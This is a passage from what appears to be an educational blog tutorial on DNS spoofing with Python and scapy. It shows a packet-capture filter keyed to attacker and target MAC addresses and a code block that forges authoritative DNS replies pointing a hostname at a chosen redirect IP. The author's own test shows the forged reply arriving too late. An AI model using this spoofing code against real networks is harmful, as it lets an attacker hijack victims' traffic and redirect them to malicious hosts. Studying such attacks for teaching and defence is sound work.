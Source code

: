 [Berkley Packet Filter](http://biot.com/capstats/bpf.html) strings are slightly different than Wireshark filter strings. After referencing the documentation, we can convert most of the above bullet points into a string:
` filter = f"udp port 53 and ether dst {attacker_mac} and ether src {target_mac}``" `

Next up is the functional filter. For this, we just want to check to see if the packet has the `DNSQR`, or DNS Query packet layer in it. We wouldn’t want to response to a response, after all!
`lfilter = lambda p: p.haslayer(DNSQR)`

**Crafting the response**
What should our response look like? We need to inform our target, that their gateway has returned them the DNS query. Here is a very basic example:

```python{numberLines: true}
response_packet = (
    IP(dst=target_ip)
    / UDP(sport=packet.dport, dport=packet.sport)
    / DNS(
        qr=1,  # Response
        aa=1,  # Authoritative response
        id=packet[DNS].id,  # Copying the DNS id from the query
        qd=packet[DNS].qd,  # Copying the
        an=DNSRR(
            ttl=10,  # Time To Live of the packet
            rdata=redirect_ip,  # What IP to direct to
            rrname=qname, # The original hostname of the query
        ),
    )
)
sendp(response_packet, verbose=0, iface=interface)
```

Lets give it a test:

![nslookup query of padraig.io resolving to the real IP address](./nslookup_0.png)

Something is obviously wrong here. The correct IP has probably still be returned. By examining the network traffic in Wireshark, we see our problem.

![Wireshark showing the real response arrived before the forged one](./wireshark_dns_1.png)

The malicious response is being sent after the real response is forwarded. Unfortunately our code is too slow. This is due in part to scapy and Python. While they are both powerful, that power comes at a bit of a cost of speed.
